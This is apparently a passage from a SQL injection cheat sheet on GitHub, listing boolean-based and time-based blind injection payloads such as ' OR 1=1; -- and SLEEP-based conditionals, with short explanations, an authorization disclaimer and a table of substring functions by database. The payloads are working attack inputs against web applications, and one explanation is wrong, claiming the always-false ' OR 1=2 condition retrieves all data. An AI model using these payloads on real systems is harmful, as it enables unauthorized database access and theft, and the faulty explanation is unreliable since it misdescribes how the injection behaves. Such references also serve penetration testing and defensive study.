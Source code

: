 1. **Boolean-Based Conditional Queries:**
   These queries rely on boolean expressions that evaluate to either true or false.

   a. Boolean-Based True Condition:
      ```
      ' OR 1=1; --
      ```
      This will always evaluate to true, causing the injected part of the SQL statement to be executed.

   b. Boolean-Based False Condition:
      ```
      ' OR 1=2; --
      ```
      This will always evaluate to false, effectively nullifying the original condition and allowing all data to be retrieved.

   c. Conditional Based on Database Content:
      ```
      ' OR (SELECT COUNT(*) FROM users WHERE role = 'admin') > 0; --
      ```
      This will trigger a response if the 'users' table contains at least one row with a 'role' column set to 'admin'.

2. **Time-Based Conditional Queries:**
   These queries introduce delays in the application's response to infer whether a condition is true or false based on the response time.

   a. Time-Based True Condition:
      ```
      ' OR IF(1=1, SLEEP(5), 0); --
      ```
      This will introduce a delay of 5 seconds if the condition `1=1` is true, indicating a successful injection.

   b. Time-Based False Condition:
      ```
      ' OR IF(1=2, SLEEP(5), 0); --
      ```
      This will not introduce any delay, as the condition `1=2` is always false.

Remember that these examples are for educational purposes only and should not be used for any unauthorized or malicious activity. SQL injection attacks are illegal and unethical unless you have explicit permission to perform security testing on an application. Always follow responsible disclosure practices and obtain proper authorization before attempting any security assessment.

## Substring

Here is a table of the substring method in different databases:

| Database | Substring method |
|---|---|
| MySQL | `SUBSTRING` |
| PostgreSQL | `SUBSTRING` |
| Oracle | `SUBSTR` |
| SQL Server | `SUBSTRING` |
| MariaDB | `SUBSTRING` |
| SQLite | `SUBSTR` |
